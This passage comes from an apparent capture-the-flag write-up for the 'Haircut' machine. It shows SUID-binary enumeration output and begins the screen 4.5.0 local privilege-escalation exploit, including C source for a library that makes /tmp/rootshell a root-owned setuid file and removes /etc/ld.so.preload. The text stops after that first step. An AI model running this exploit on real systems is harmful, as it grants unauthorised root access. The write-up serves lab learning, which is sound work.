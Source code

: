 ```bash
| sys                |
+--------------------+
```

### Screen 4.5.0

If we find suid files we have a very strange one.

```bash
www-data@haircut:/dev/shm$ find / -perm -4000 2>/dev/null -ls
    53377    140 -rwsr-xr-x   1 root     root       142032 Jan 28  2017 /bin/ntfs-3g
    52805     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
    53367     32 -rwsr-xr-x   1 root     root        30800 Jul 12  2016 /bin/fusermount
    52955     40 -rwsr-xr-x   1 root     root        40128 May  4  2017 /bin/su
    52791     40 -rwsr-xr-x   1 root     root        40152 Dec 16  2016 /bin/mount
    52804     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
    52839     28 -rwsr-xr-x   1 root     root        27608 Dec 16  2016 /bin/umount
   262400    136 -rwsr-xr-x   1 root     root       136808 Jan 20  2017 /usr/bin/sudo
   273351     24 -rwsr-xr-x   1 root     root        23376 Jan 18  2016 /usr/bin/pkexec
   266457     36 -rwsr-xr-x   1 root     root        32944 May  4  2017 /usr/bin/newuidmap
   266260     40 -rwsr-xr-x   1 root     root        39904 May  4  2017 /usr/bin/newgrp
   266765     36 -rwsr-xr-x   1 root     root        32944 May  4  2017 /usr/bin/newgidmap
   267324     76 -rwsr-xr-x   1 root     root        75304 May  4  2017 /usr/bin/gpasswd
   273121     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
   267325     56 -rwsr-xr-x   1 root     root        54256 May  4  2017 /usr/bin/passwd
   268146   1552 -rwsr-xr-x   1 root     root      1588648 May 19  2017 /usr/bin/screen-4.5.0
   267327     40 -rwsr-xr-x   1 root     root        40432 May  4  2017 /usr/bin/chsh
   267323     52 -rwsr-xr-x   1 root     root        49584 May  4  2017 /usr/bin/chfn
   265697     40 -rwsr-xr-x   1 root     root        38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   272188     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    28123    204 -rwsr-xr-x   1 root     root         208680 Apr 29  2017 /usr/lib/snapd/snap-confine
   265195     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   267345    420 -rwsr-xr-x   1 root     root         428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
    26270     16 -rwsr-xr-x   1 root     root          14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
```

screen 4.5.0 is suid and there is a well-know vulnerability with this version.

To exploited we have to follow the steps in the exploit [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154). 

- Create libhax.c and compile libhax.so

```bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
